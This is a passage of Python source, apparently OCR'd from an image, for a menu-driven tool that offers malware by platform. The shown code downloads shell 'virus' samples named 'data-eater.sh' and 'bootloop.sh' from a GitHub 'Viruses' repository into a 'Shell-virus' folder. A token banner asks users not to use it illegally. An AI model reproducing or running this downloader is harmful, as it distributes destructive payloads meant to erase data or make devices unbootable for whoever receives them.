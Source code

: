 	try:
		menu6 = input("Input number > "+R+"")
		if menu6 == 1:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/data-eater.sh?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'data-eater.sh?raw=true' Shell-virus/Data-Eater.sh")
			print(fun)#####done
			
		elif menu6 == 2:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/bootloop.sh?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'bootloop.sh?raw=true' Shell-virus/Bootloop.sh")
			print(fun)#####done
		elif menu6 == 3:
			print("\n")
			menu()
		else:
			print(""+R+"[!] wrong number")
	except Exception:
		print(""+R+"[!] This is not number")

def banner2():
	print(""+G+"Please do"+R+" NOT "+G+"use this tool for illegal activity")
	print(""+R+"[!] "+G+"Keep legal don't illegal "+R+" [!]"+O+"")
	print(""+G+"Tolong Jangan"+R+" Gunakan "+G+"Tool ini Untuk Illegal activity")
	print(""+R+"[!] "+G+"Tetap Legal Jangan Ilegal By ⊱XͭPͪLͤᗝIƬ༻₁₀₀ᵏ "+R+" [!]"+O+"")
def menu():
	print("\n"+R+"[========== Menu ==========]"+O+"")
	print(""+O+"["+R+"1"+O+"] Android\t\t["+R+"4"+O+"] Pdf Autorun PC\t\t["+R+"7"+O+"] Update tool")
	print(""+O+"["+R+"2"+O+"] Macosx\t\t["+R+"5"+O+"] Other\t\t\t["+R+"8"+O+"] About")
	print(""+O+"["+R+"3"+O+"] Windows\t\t["+R+"6"+O+"] Shell\t\t\t["+R+"9"+O+"] Exit")
	try:
		menu = input("\nInput Number > "+R+"")
		if menu == 1:
			os.system("clear")
			Vandroid()
		elif menu == 2:
			os.system("clear")
			Vmacosx()
		elif menu == 3:
			os.system("clear")
			vpcwin()
		elif menu == 4:
			os.system("clear")
			Vpdfautorunpc()
		elif menu == 5:
			os.system("clear")
			Vother()